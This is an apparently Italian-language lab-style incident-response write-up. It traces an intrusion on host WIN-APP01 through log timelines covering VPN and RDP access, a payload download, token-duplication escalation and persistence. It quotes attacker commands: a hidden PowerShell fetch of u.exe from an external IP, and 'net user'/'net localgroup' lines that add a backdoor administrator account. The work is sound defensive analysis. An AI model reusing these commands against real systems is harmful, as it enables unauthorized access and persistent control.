


# Logs
VPN Gateway, Remote Desktop Gateway (RDG) e Load Balancer (HAProxy) logs



Windows Security Auditing, Sysmon, MsiInstaller, Windows Update logs



#
L’indagine è iniziata con un ticket del SIEM alle 09:41:21. 

`2025-08-22 09:41:21 Microsoft-Windows-Security-Auditing: EventID=4672 SpecialPrivilegesAssignedToNewLogon SubjectUserName=LOCAL SERVICE LogonID=0x3C221 note="token duplication" `

L’evento era un 4672 Special Privileges Assigned, legato all’account LOCAL SERVICE. Si tratta di un tentativo di escalation di privilegi. Ho guardato qualche secondo prima e ho trovato che alle 09:41:19 il processo powershell.exe (PID 4471), eseguito con l’utente CORP\j.smith, aveva lanciato il comando `C:\ProgramData\u.tmp --elevate-token`. Questo collegava chiaramente il file sospetto u.tmp all’escalation.
Proseguendo a ritroso ho scoperto che alle 09:27:02 un altro processo, cmd.exe (PID 4112 con parent explorer.exe), aveva eseguito `C:\ProgramData\u.tmp –probe`. Sembrava un test preliminare del malware per capire l’ambiente. Ho poi verificato il contesto utente e ho visto che alle 09:26:39 c’era stato un accesso RDP riuscito per l’utente j.smith, proveniente dall’IP esterno `203.0.113.90`. Da lì ho capito quale fosse l’account compromesso e da dove fosse entrato l’attaccante.
Ho quindi ricostruito la catena...prima l’accesso VPN da quell’indirizzo IP, poi la sessione RDP, subito dopo il download di u.exe trasformato in u.tmp, e infine l’esecuzione del file che ha portato all’escalation e alla creazione di un nuovo utente amministratore.

```
SIEM ticket
 └── 09:41:21 WIN-APP01 → EventID 4672 SpecialPrivilegesAssigned (LOCAL SERVICE) 
     └── 09:41:19 powershell.exe (User=CORP\j.smith) → esegue C:\ProgramData\u.tmp --elevate-token
         └── 09:27:02 cmd.exe (Parent=explorer.exe) → esegue u.tmp --probe (Exit=1)
             └── 09:26:39 WIN-APP01 → Logon riuscito (4624) User=j.smith, SourceIP=203.0.113.90, LogonType=10

```

# Accesso Iniziale
alle 08:11:09, nei log VPN un accesso con l’utente corp\j.smith dall’IP esterno `203.0.113.90`. La connessione viene accettata con protocollo IKEv2 e questo è il primo punto in cui l’attaccante riesce a entrare nella rete interna. Subito dopo, alle 08:11:12, sul server RDG01 viene registrato un evento CAP: significa che il controllo delle policy RDP per l’utente j.smith è stato autorizzato, quindi può proseguire verso il server target.
Alle 08:18:03, infatti, l’RDP viene autorizzato per collegarsi a WIN-APP01, lo stesso host che più tardi sarà coinvolto. E alle 08:18:11 arriva la conferma definitiva: l’evento 4624 sui log di sicurezza di WIN-APP01 segnala un logon remoto (LogonType=10) con utente j.smith e IP sorgente 203.0.113.90.
In questo modo si completa la catena di ingresso 

`VPN → CAP check → sessione RDP autorizzata → login remoto riuscito`

 È chiaro che l’attaccante ha usato credenziali valide di j.smith per aprirsi una porta verso l’ambiente interno e stabilire una sessione interattiva. Da qui in poi può muoversi liberamente sul server.
```

  08:11:09 VPNGW01 → Accesso VPN con credenziali valide (corp\j.smith) da 203.0.113.90
     └── 08:11:12 RDG01 → CAP autorizzato per j.smith
         └── 08:18:03 RDG01 → RDP autorizzato verso WIN-APP01
             └── 08:18:11 WIN-APP01 → Logon remoto riuscito (EventID 4624, LogonType=10)
```


# Esecuzione e Consegna del Payload
Dopo il logon riuscito con l’utente j.smith, noto che alle 08:19:02 su WIN-APP01 parte un comando sospetto `powershell.exe` viene eseguito con opzioni nascoste (-nop -w hidden) e scarica un file da un server esterno all’indirizzo `http://203.0.113[.]90/tools/u.exe`. Il file non viene salvato come “u.exe”, ma viene scritto in `C:\ProgramData\u.tmp`, probabilmente per confondere i controlli o evitare di attirare subito l’attenzione.
Pochi secondi dopo, alle 08:19:06, i log di Sysmon confermano la creazione effettiva del file u.tmp con relativo hash. Questo mi fa capire che il payload è stato depositato con successo sul server.
Alle 08:19:13 vedo un altro passo fondamentale.. lo stesso utente esegue `icacls.exe` per modificare i permessi sul file, concedendo accesso in lettura ed esecuzione a “Everyone”. Questo è un segnale chiaro che l’attaccante vuole rendere il file facilmente utilizzabile, senza restrizioni, magari per lanciarlo con privilegi diversi o da altri contesti.
Con questa sequenza, la fase di delivery è completata: il payload malevolo (u.tmp) è stato scaricato, scritto su disco e reso pronto all’uso. Da qui inizieranno i tentativi di esecuzione ed escalation.
```
08:19:02 powershell.exe → Download u.exe da 203.0.113.90 → salvato come C:\ProgramData\u.tmp
     └── 08:19:06 FileCreate → u.tmp scritto su disco (hash registrato)
     └── 08:19:13 icacls.exe → Permessi modificati (Everyone:RX)
```
# Escalation dei Privilegi 
Dopo che il payload u.tmp è stato scaricato e reso eseguibile, l’attaccante inizia a testarlo. Alle 09:27:02, vedo che cmd.exe esegue il file con il parametro --probe. Questo sembra un test preliminare per verificare se l’impianto funziona nell’ambiente corrente. L’esecuzione non produce risultati utili (ExitStatus=1), ma indica chiaramente un tentativo di interazione con il malware.
Poco dopo, alle 09:27:15, lo stesso file u.tmp viene lanciato da powershell.exe con l’opzione runAs. Questo comando serve a forzare un prompt di elevazione dei privilegi. In pratica, l’attaccante sta cercando di eseguire il payload con diritti amministrativi, sfruttando l’utente loggato (j.smith).
alle 09:41:19 invece, quando powershell.exe esegue di nuovo il file u.tmp, questa volta con il parametro `--elevate-token`. Subito dopo, nei log appare l’evento 4672, che conferma l’assegnazione di privilegi speciali a un nuovo logon per l’account LOCAL SERVICE. Questo significa che è avvenuta una duplicazione di token... l’attaccante è riuscito a sfruttare il payload per ottenere un contesto privilegiato al di fuori del normale utente j.smith.
```
  09:27:02 cmd.exe → Esegue u.tmp --probe (Exit=1)
     └── 09:27:15 powershell.exe → Start-Process u.tmp -Verb runAs (ElevationPrompt)
         └── 09:29:11 run.exe tenta /elevate → (AccessDenied)
     └── 09:41:19 powershell.exe → Esegue u.tmp --elevate-token
         └── 09:41:21 Security Log → EventID 4672 → Privilegi speciali assegnati a LOCAL SERVICE (Token Duplication)
```

# Persistenza 
Dopo aver ottenuto i privilegi più alti grazie alla duplicazione di token, l’attaccante passa subito a consolidare l’accesso sul sistema. Alle 09:41:36, noto che il processo cmd.exe, eseguito in contesto SYSTEM e con parent process collegato a u.tmp, lancia il comando

`net user backupsvc Qwe!2025 /add`
Questo crea un nuovo utente locale chiamato backupsvc con una password già definita. Pochi secondi dopo, alle 09:41:39, i log di sicurezza confermano l’evento 4720, che indica ufficialmente la creazione dell’account.
Ma l’attaccante non si ferma qui. Alle 09:41:44, sempre tramite cmd.exe in esecuzione da u.tmp, viene eseguito un altro comando:
net localgroup administrators backupsvc /add.
L’obiettivo ...inserire l’account appena creato direttamente nel gruppo Administrators. Infatti, alle 09:41:46, i log confermano con l’evento 4732 che l’utente backupsvc è stato aggiunto al gruppo amministratori locali.
In questo modo, l’attaccante ottiene un accesso persistente e garantito al sistema, indipendente dall’utente originale compromesso (j.smith). Anche se la sessione VPN o RDP venisse chiusa, l’account backupsvc resterà attivo e con pieni privilegi amministrativi, pronto per essere usato in futuri accessi malevoli.
```
 09:41:36 cmd.exe (SYSTEM, figlio di u.tmp) → `net user backupsvc Qwe!2025 /add`
     └── 09:41:39 EventID 4720 → Creazione account "backupsvc"
     └── 09:41:44 cmd.exe (SYSTEM) → `net localgroup administrators backupsvc /add`
         └── 09:41:46 EventID 4732 → backupsvc aggiunto al gruppo Administrators
```
